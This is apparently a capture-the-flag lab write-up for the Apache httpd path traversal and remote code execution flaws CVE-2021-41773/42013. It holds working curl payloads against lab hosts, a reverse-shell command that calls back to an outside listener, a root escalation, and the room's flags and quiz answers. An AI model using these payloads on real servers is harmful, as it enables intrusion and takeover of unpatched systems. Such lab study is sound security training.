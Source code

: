 > # CVE-2021-41773/42013

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 1 - A Bit of Background...](#task-1---a-bit-of-background)
    - [Task 2 - What is Path Traversal anyways?](#task-2---what-is-path-traversal-anyways)
    - [Task 3 - Ok, Ok; Gib Hax!](#task-3---ok-ok-gib-hax)
    - [Task 4 - Practical Exam](#task-4---practical-exam)

<!-- /TOC -->

## Task 1 - A Bit of Background...
1. What version of Apache httpd was initially vulnerable to this CVE?<br>
    > On the 5th of October 2021, a CVE detailing a path traversal attack on Apache HTTP Server v2.4.49 was released. 

    **Answer:** 2.4.49

1. This vulnerability requires an unusual misconfiguration for it to be exploitable (Yea/Nay)<br>   
    > This is not the default configuration and should thus render this exploit useless against a large percentage of the Apache hosts

    **Answer:** Yea

## Task 2 - What is Path Traversal anyways?
1. A path traversal exploit will (choose the best answer):<br>
    C. Allow arbitrary files to be exposed by the server.
    **Answer:** C

1. URL-encode the . symbol<br>
    **Answer:** %2E

1. What does this URL fragment decode to:  %%32%65 ?<br>    
    **Answer:** %2E

## Task 3 - Ok, Ok; Gib Hax!
1. What module needs to be enabled in order to get remote code execution?<br>
    > we simply need to activate the CGI module in addition to the access permissions
    
    **Answer:** mod_cgi

## Task 4 - Practical Exam
1. What is the flag on port 8080?<br>
    The flag is in / folder
    Payload: `$ curl -v 'http://10.10.82.86:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag%2etxt'`
    ```
    *   Trying 10.10.82.86:8080...
    * Connected to 10.10.82.86 (10.10.82.86) port 8080 (#0)
    > GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag%2etxt HTTP/1.1
    > Host: 10.10.82.86:8080
    > User-Agent: curl/7.84.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Sun, 25 Jun 2023 05:07:25 GMT
    < Server: Apache/2.4.49 (Unix)
    < Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
    < ETag: "1d-5ce102e25be36"
    < Accept-Ranges: bytes
    < Content-Length: 29
    < Content-Type: text/plain
    < 
    * Connection #0 to host 10.10.82.86 left intact
    THM{724V3R51N6_P4TH5_F02_FUN}
    ```
    **Answer:** THM{724V3R51N6_P4TH5_F02_FUN}

1. What is the flag on port 8081?<br>
    Payload: `curl -v 'http://10.10.82.86:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H "Content-Type: text/plain"`

    ```
       Trying 10.10.82.86:8081...
    * Connected to 10.10.82.86 (10.10.82.86) port 8081 (#0)
    > POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash HTTP/1.1
    > Host: 10.10.82.86:8081
    > User-Agent: curl/7.84.0
    > Accept: */*
    > Content-Type: text/plain
    > Content-Length: 50
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Sun, 25 Jun 2023 05:29:06 GMT
    < Server: Apache/2.4.49 (Unix)
    < Transfer-Encoding: chunked
    < Content-Type: text/plain
    < 
    * Connection #0 to host 10.10.82.86 left intact
    THM{2C3_F20M_C61}
    ```
    **Answer:** THM{2C3_F20M_C61}

1. What is the flag on port 8082?<br>
    Payload: `curl -v 'http://10.10.82.86:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'`
    ```
    *   Trying 10.10.82.86:8082...
    * Connected to 10.10.82.86 (10.10.82.86) port 8082 (#0)
    > GET /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt HTTP/1.1
    > Host: 10.10.82.86:8082
    > User-Agent: curl/7.84.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Sun, 25 Jun 2023 05:40:31 GMT
    < Server: Apache/2.4.50 (Unix)
    < Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
    < ETag: "18-5ce102e26103d"
    < Accept-Ranges: bytes
    < Content-Length: 24
    < Content-Type: text/plain
    < 
    * Connection #0 to host 10.10.82.86 left intact
    THM{D0UBL3_3NC0D1N6_F7W}
    ```
    **Answer:** THM{D0UBL3_3NC0D1N6_F7W}

1. What is the flag on port 8083?<br>
    Payload: `curl -v 'http://10.10.82.86:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H "Content-Type: text/plain"`
    ```
    *   Trying 10.10.82.86:8083...
    * Connected to 10.10.82.86 (10.10.82.86) port 8083 (#0)
    > POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash HTTP/1.1
    > Host: 10.10.82.86:8083
    > User-Agent: curl/7.84.0
    > Accept: */*
    > Content-Type: text/plain
    > Content-Length: 50
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Sun, 25 Jun 2023 05:41:29 GMT
    < Server: Apache/2.4.50 (Unix)
    < Transfer-Encoding: chunked
    < Content-Type: text/plain
    < 
    * Connection #0 to host 10.10.82.86 left intact
    THM{F1L732_8YP455_2C3}
    ```
    **Answer:** THM{F1L732_8YP455_2C3}

1. What user is the Apache server running as?<br>
    We will create a reverse shell to RCE on Apache. First, create a bash file on the server with payload
    `curl -v 'http://10.10.162.19:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; echo "bash -i >& /dev/tcp/10.8.61.205/4444 0>&1" > /tmp/vuln.sh' -H "Content-Type: text/plain"`
    Check whether the file is created.<br>
    `curl -v 'http://10.10.162.19:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /tmp/vuln.sh' -H "Content-Type: text/plain"`
    Run the bash file to get revershell.
    `curl -v 'http://10.10.162.19:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; bash /tmp/vuln.sh' -H "Content-Type: text/plain"`

    ```
    $ nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [10.8.61.205] from (UNKNOWN) [10.10.162.19] 44168
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    daemon@18c7613b3859:/bin$ id
    id
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    ```
    We got reverse shell from Apache server, run `id` to get current user name.<br>
    **Answer:** daemon

1. Find the root flag on the machine on port 8083?<br>
    The hint give the password of root is ApacheCVE
    ```
    daemon@18c7613b3859:/bin$ su root
    su root
    Password: ApacheCVE
    id
    uid=0(root) gid=0(root) groups=0(root)
    ls /root
    root.txt
    cat /root/root.txt
    THM{P21V_35C_F20M_4P4CH3_15_FUN}
    ```
    **Answer:** THM{P21V_35C_F20M_4P4CH3_15_FUN}


